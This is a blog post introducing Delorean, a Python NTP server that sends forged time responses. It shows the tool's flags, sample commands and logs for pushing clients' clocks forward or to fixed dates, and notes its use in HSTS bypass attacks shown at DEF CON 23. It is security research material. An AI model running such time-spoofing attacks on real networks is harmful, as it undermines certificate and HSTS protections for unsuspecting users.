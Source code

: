 Delorean is an NTP server written in python, open source and available from GitHub (contributions are welcomed). I borrowed a few lines of code from kimifly's ntpserver and, of course, all the credits to him have been included.

What makes Delorean different and useful for us is that we can configure its flags in order to make it work in a different way than a regular NTP server. Basically, we can configure it in order to send fake responses, similar to the Metasploit's fakedns module.

```
$ ./delorean.py -h
Usage: delorean.py [options]

Options:
-h, --help show this help message and exit
-i INTERFACE, --interface=INTERFACE Listening interface
-p PORT, --port=PORT Listening port
-n, --nobanner Not show Delorean banner
-s STEP, --force-step=STEP Force the time step: 3m (minutes), 4d (days), 1M (month)
-d DATE, --force-date=DATE Force the date: YYYY-MM-DD hh:mm[:ss]
-x, --random-date Use random date each time
```

We have the typical interface (-i) and port (-p) flags, that help us to bind the service exactly where we want. The -n flag only hides the super-cool Delorean banner :)

```
                                    _._                                          
                               _.-="_-         _                                 
                          _.-="   _-          | ||"""""""---._______     __..    
              ___.===""""-.______-,,,,,,,,,,,,`-''----" """""       """""  __'   
       __.--""     __        ,'                   o \           __        [__|   
  __-""=======.--""  ""--.=================================.--""  ""--.=======:  
 ]       [w] : /        \ : |========================|    : /        \ :  [w] :  
 V___________:|          |: |========================|    :|          |:   _-"   
  V__________: \        / :_|=======================/_____: \        / :__-"     
  -----------'  ""____""  `-------------------------------'  ""____"" 
``` 

We can use Delorean in several modes, but we are going to focus in the most useful ones. There are some other attacks that weren't really interesting after developing them, but they are still in the code. Perhaps I will remove them in the future, sine they require scapy and some dependencies. You can install dependencies using pip.
```
pip install -r requirements.txt
```


Since it's too soon yet to talk about how OS synchronize, we will test how Delorean works using the command line tool "ntpdate":

```
$ ntpdate -q 192.168.1.2
server 192.168.1.2, stratum 2, offset 97372804.086845, delay 0.02699
20 Oct 06:05:45 ntpdate[881]: step time server 192.168.1.2 offset 97372804.086845 sec
```

By default (no flags), Delorean responses a date that matches the same week and month day than the current date, but at least 1000 days in the future. This was useful for the HSTS bypass as we will see in upcoming posts.

```
# ./delorean.py -n 
[19:44:42] Sent to 192.168.10.113:123 - Going to the future! 2018-08-31 19:44 
[19:45:18] Sent to 192.168.10.113:123 - Going to the future! 2018-08-31 19:45
```

We can set a relative jump from the current date using the step flag (-s). Relative jumps can be defined as 10d (ten days in the future), -2y (two years in the past), etc:

```
# ./delorean.py -s 10d -n 
[19:46:09] Sent to 192.168.10.113:123 - Going to the future! 2015-08-10 19:46 
[19:47:19] Sent to 192.168.10.113:123 - Going to the future! 2015-08-10 19:47
```

We can also set a specific date, and Delorean would answer always the same date:

```
# ./delorean.py -d ‘2020-08-01 21:15’ -n 
[19:49:50] Sent to 127.0.0.1:48473 - Going to the future! 2020-08-01 21:15 
[19:50:10] Sent to 127.0.0.1:52406 - Going to the future! 2020-08-01 21:15
```

There are a number of attacks that you can run using Delorean. I shown some of them in DEF CON 23: https://www.youtube.com/watch?v=hkw9tFnJk8k
